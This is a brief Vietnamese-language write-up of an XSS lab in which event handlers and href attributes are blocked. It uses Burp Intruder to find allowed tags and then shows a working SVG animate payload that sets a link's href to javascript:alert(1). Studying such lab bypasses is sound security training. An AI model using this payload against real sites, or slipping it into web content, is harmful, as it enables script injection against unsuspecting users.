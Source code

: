
### **Reflected XSS with event handlers and href attributes blocked**

Dùng Burp Intruder để tìm tag không bị block.

![Untitled](writeup_media/Untitled%2071.png)

Có được một số tag không bị block

![Untitled](writeup_media/Untitled%2072.png)

Craft payload tạo link link giả

```html
<svg>
    <a>
        <animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text>
    </a>
</svg>
```
